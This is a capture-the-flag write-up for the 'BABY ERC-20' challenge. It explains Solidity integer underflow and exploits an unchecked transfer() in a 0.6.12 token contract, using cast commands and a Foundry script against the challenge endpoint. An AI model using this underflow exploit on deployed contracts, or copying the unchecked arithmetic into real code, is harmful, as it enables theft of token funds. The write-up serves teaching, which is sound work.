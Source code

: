 # Writeup for BABY ERC-20

- Hello h4ck3r, welcome to the world of smart contract hacking. In order to understand this writeup you need to understand foundry.

### Challenge Description

No Description given

### Key Concepts to Learn

In order to solve this challenge we need to understand `overflows` and `underflows` in solidity.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract overflow_underflow{
    uint8 overflow=255;
    uint8 underflow=0;

    function increment()public{
        overflow++;
    }

    function decrement()public{
        underflow--;
    }

}
```

The above contract is a good example to understand overflows and underflows. The state variable `overflow` is set to 255, and the state variable `underflow` is set to 0.

`uint8` technically refers to 8 bits, which means it can store a maximum value of 255. If we increase the value of the variable after 255, it will start from zero again. In the above contract, if we call `increment()` once, then `overflow` will be set to zero. If we call it again, it will be set to 1, and so on.

The minimum value of `uint8` is 0. But if we decrease a `uint8` variable after zero, it will become 255. In the above contract, if we call `decrement()` once, then `underflow` is set to 255. If we call it again, `underflow` will be set to 254, and so on.

For solidity versions greater than 0.8.0, overflow and underflows are implicitly handled. But for solidity versions less than 0.8.0, we need to explicitly handle the overflows and underflows.There is a library named SafeMath to handle overflows and underflows for versions less than 0.8.0.

If you are new to overflows and underflows, I suggest you go to [Remix](https://remix.ethereum.org/) and try out the example by deploying in remix local VM's.

### Exploit

Click [here](./src/contracts/) to view the source contracts.

In this challenge our task is make `isSolved()` function return true.

```solidity
function isSolved() public view returns (bool) {
    return coin.balanceOf(player) > 1000 ether; // im rich :D
    }
```

The function `isSolved()` is checking if the player has enough balance in the `HCOIN` contract or not. If the player's balance is more than `1000 ether`, it will return true.

Now let's understand some functions in the HCOIN contract. The blanceOf variable is changed in three functions.

```solidity
function deposit() public payable {
    balanceOf[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
}
```

The function `deposit()` will increment the `balanceOf` of `msg.sender` (caller) by `msg.value` (if any ether is sent during the call). We can call this function and make our balance `1001 ether` `HCOIN` tokens only if we have `1001 ETH`. Since the challenge creator has given us less than `1001 ether`, we need to look into other functions.

```solidity
function transfer(address _to, uint256 _value) public returns (bool success) {
    require(_to != address(0), "ERC20: transfer to the zero address");
    require(balanceOf[msg.sender] - _value >= 0, "Insufficient Balance");
    balanceOf[msg.sender] -= _value;
    balanceOf[_to] += _value;
    emit Transfer(msg.sender, _to, _value);
    return true;
}
```

The function `transfer()` takes two arguments: address \_to and uint256 \_value. It first checks if \_to is a zero address. If it is, the function call will revert. Otherwise, it checks if msg.sender has enough balance to transfer the specified amount. If msg.sender has enough balance, the function decreases the msg.sender balance by \_value and increases the \_to balance by \_value.

The Solidity compiler version used for the HCOIN contract is 0.6.12, which means it is vulnerable to overflows and underflows. They also haven't used the SafeMath library to prevent overflows. So, the contract is vulnerable to overflows and underflows.

Let's check how this function will work if the balance of `msg.sender` is 0 and they are transferring 1 wei to another address.

1. `balanceOf[msg.sender]` will return 0 and `_value` is 1.
2. `0 - 1` will return `2**256 - 1` which is greater than 0.
3. `balanceOf[msg.sender] -= _value`. This will set `msg.sender` balance to `2**256 - 1 wei` which is equivalent to `115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether`.
4. `balanceOf[_to] += _value`. This will set `_to` balance to 1 wei.

So from our account if we send 1 wei to any address then we will have a balance of 115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether HCOIN tokens and our challenge will be solved.

```solidity
function setPlayer(address _player) public {
    require(_player == msg.sender, "Player must be the same with the sender");
    require(_player == tx.origin, "Player must be a valid Wallet/EOA");
    player = _player;
}
```

Once the transfer is completed we need call setPlayer() function in Setup.sol by passing our address as an argument.

We can complete this transaction in two ways. One way is by making direct transactions using `cast`, and the second way is by writing a script.

**Method-1**

In our instance, they are giving only the Setup contract address, but we need to interact with the HCOIN contract first. Since `coin()` in Setup is a public variable, we can get the `HCOIN` contract address by making a call to `coin()`.

```shell
$ cast call 0xD896A0672D9E650B18524139293e4CDcA1E44c9e "coin()" --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb

```

`0xD896A0672D9E650B18524139293e4CDcA1E44c9e` is the Setup contract address. Now we need to call the `transfer()` function.

```shell
$ cast send 0x90bdc08cf595a862268cb0f12ec5956178e6fbf0 "transfer(address,uint256)" 0xD896A0672D9E650B18524139293e4CDcA1E44c9e 1 --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb --interactive
```

`0x90bdc08cf595a862268cb0f12ec5956178e6fbf0` is the address of the HCOIN contract.

```shell
$ cast send 0xD896A0672D9E650B18524139293e4CDcA1E44c9e "setPlayer(address)" 0xB0C867c14c0F7fFD55FDD3604C9Cb3771D80e4Ee --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb --interactive
```

Once this transaction completes, the challenge will be solved.

**Method-2**

We can also solve this challenge by writing a script.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.6.0;

import {Script, console} from "forge-std/Script.sol";
import {Setup, HCOIN} from "src/Setup.sol";
import {ExploitHCOIN} from "./ExploitHCOIN.sol";

contract ExploitScript is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(//__YOUR__SETUP__ADDRESS);
        HCOIN hcoin = setup.coin();
        hcoin.transfer(address(1), 1 ether);
        setup.setPlayer(msg.sender);
        require(setup.isSolved(), "Exploit Failed");
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitScript.s.sol:ExploitScript --rpc-url http://ctf.tcp1p.team:13391/be6c4a04-354d-4901-a68c-b869ec0060b9 -i 1 --broadcast --sender 0x46dA09A4C4e019CDF7203D16E92FC3db3215Fd22
```

Once you compile and run the script the challenge will be solved. If you face any copiler version issues set `solc_version = "0.6.12"` in foundry.toml

### Key Takeaways

For solidity versions less than 0.8.0, we need to explicitly handle the overflows and underflows. We can use the [SafeMath](https://github.com/aave/protocol-v2/blob/master/contracts/dependencies/openzeppelin/contracts/SafeMath.sol) library to overcome those.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
